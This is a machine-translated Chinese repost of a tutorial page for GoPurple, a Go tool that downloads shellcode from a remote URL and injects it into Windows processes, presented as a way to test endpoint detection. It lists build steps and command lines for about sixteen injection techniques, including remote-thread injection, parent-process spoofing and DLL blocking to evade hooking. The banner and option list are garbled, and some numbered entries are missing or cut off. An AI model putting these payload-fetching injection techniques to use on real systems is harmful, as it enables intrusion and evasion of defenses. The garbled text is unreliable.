



# GoPurple:另一个 Shellcode Runner 包含了不同的技术，用于评估端点安全解决方案的检测能力

> 原文：<https://kalilinuxtutorials.com/gopurple/>

**GoPurple** 是各种 shell 代码注入技术的简单集合，旨在简化端点检测评估的过程，并挑战自己进入 Golang world。

**安装**

*   需要安装 go。

*   从项目的目录:`**go build**`构建应用程序。如果构建系统不是 Windows，则设置`**GOOS=windows**`

***_/****| |
| | _*|**_ _**_ _ _*_***_ |
| | | _/_ ' _ | | | '**| ' _ | ^ _ ^ _ ^ _ ^ \
| |**|*)|*)|*|*) **/ __， *|* | |。**/|*| _*| |
| | |
|*| |*| by @ s3c dev
-a 字符串
程序命令行参数
-b 字符串
阻塞 DLL 模式(nonms/onlystore for QueueUserAPC)
-p int
进程 ID 将外壳代码注入
-prog string
程序注入
-t string
外壳代码注入要使用的技术:
1:create fiber
2:syscall
3:CreateThreadNative
4:CreateProcess
5:etwpcreateetthread
6:createremotelotethread
7:RtlCreateUserThread
8:CreateThread【T52**

**例题**

需要生成 shellcode，这可以使用 MSF 毒液或 shad0w 之类的工具来完成。然后，需要托管外壳代码，以便远程下载并在远程机器上执行。为了清楚起见，下面的演示说明了使用该工具的不同方法。

*   使用 BananaPhone 方法+shadw 作为外壳代码生成器的外壳代码注入

*   使用 QueueUserAPC 技术的外壳代码注入+shadw 作为外壳代码生成器+欺骗父 ID (explorer 作为父 ID) +由包含外壳代码的欺骗父启动的进程(calc) +保护进程免受未签名的 DLL 挂钩的影响，因此只有 Microsoft 签名的 DLL 可以挂钩到进程中。

*   使用 CreateFiber + msfvenom 作为外壳代码生成器的外壳代码注入

**如何使用**

**1–gopurple.exe-u urlhostingpayload-T1(create fiber)
2–gopurple.exe-u urlhostingpayload-T2(Syscall)
3–gopurple.exe-u urlhostingpayload-T3(CreateThreadNative)
4–gopurple.exe-u urlhostingpayload-T4(CreateProcess)
5–gopurple.exe-u urlhostingpayload-T5(etwpcreatethread)
6–gopurple.exe-u urlhostingpayload-T6-p target process(create
9–gopurple.exe-u urlhostingpayload-t 9-p target process(CreateRemoteThreadNative)
10–gopurple.exe-u urlhostingpayload-t 10-Prog program-a Process 参数(ex:C:\ Windows \ System32 \ Windows powershell \ v 1.0)和 Process 参数(ex:Get-Process)(CreateProcessWithPipe)
11–gopurple.exe-u urlhostingpayload-t 11-p targetpidas parantprocess-programintoinject
13-gopurple.exe-u urlhostingpayload-t13(banana phone)
14-gopurple.exe-u urlhostingpayload-T14(EnumerateLoadedModules)
15-gopurple.exe-u urlhostingpayload-T15(EnumChildWindows)
16-gopurple.exe-u urlhostingpayload-T16(EnumPageFilesW)**

[**Download**](https://github.com/sh4hin/GoPurple)